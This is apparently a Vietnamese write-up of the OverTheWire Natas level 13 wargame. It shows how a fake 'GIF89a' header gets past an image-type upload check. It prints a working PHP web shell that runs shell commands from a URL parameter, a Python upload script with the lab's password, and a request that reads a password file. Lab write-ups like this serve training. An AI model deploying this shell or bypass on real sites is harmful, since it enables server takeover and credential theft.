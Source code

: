 # Natas13

![1](image/1.png)

- Bài này cũng thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- `Viewsource` xem thử code thế nào

![2](image/2.png)

- Mấu chốt của cả `source` nằm ở hàm `exif_imagetype()`

- Đọc về hàm `exif_imagetype()` : [Link](https://www.php.net/manual/en/function.exif-imagetype.php)

- Hàm này đọc *byte* đầu của file để xác định xem có phải là ảnh không

- Ta chỉ cần thêm `GIF89a` vào đầu file để đánh lừa hàm này là có thể *upload* file lên server

- Code `backdoor`:

```
	GIF89a
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
``` 

- Code *upload* của mình (thực sự thì upload bằng tay còn nhanh hơn...):

```
	import requests

	username = 'natas13'
	password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	s=requests.session()

	file = {
		'uploadedfile' : open('backdoor.php', 'rb'),
	}

	data = {
		'filename' : 'a.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = s.post(url+'upload/g3sysz0999.php?backdoor=cat /etc/natas_webpass/natas14', auth = (username, password))

	print(response.text)
```

![3](image/3.png)

![3](image/4.png)

